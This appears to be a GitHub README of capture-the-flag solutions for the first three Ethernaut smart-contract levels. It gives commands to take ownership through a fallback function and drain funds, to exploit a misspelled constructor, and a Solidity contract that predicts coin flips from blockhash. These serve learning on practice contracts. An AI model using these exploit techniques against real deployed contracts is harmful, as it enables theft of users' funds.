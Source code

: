 # ethernaut-ctf-solutions

<details>
    <summary>Level 1 - Fallback</summary>

```javascript
// first need to send some ether to contribute():
await contract.contribute({value: toWei("0.0001")})

// then send some raw ether, the fallback function will make us the owner
sendTransaction({from: player, to: instance, value: toWei("0.0001")})

// are we the owner yet?
await contract.owner() == player

// now that we're the owner, we can siphon the funds
await contract.withdraw()

// and double check that the contract has a balance of 0:
await getBalance(instance)
```

</details>

 <details>
    <summary>Level 2 - Fallout</summary>
    
```javascript
 /* constructor */
  function Fal1out() public payable    // <--- typo makes it not actually a constructor

// so just call this and you're the owner
await contract.Fal1out()
```

</details> 

 <details>
    <summary>Level 3 - Coin flip</summary>

Deploy this guesser contract, using e.g. Remix IDE:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip instance = CoinFlip(address(...));

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    bool coinFlip = blockValue > FACTOR;
    require(instance.flip(coinFlip));
  }
}
```

Then repeatedly invoke the guess() function, calls will only go through when we know they will succeed in the `CoinFlip` contract.

</details> 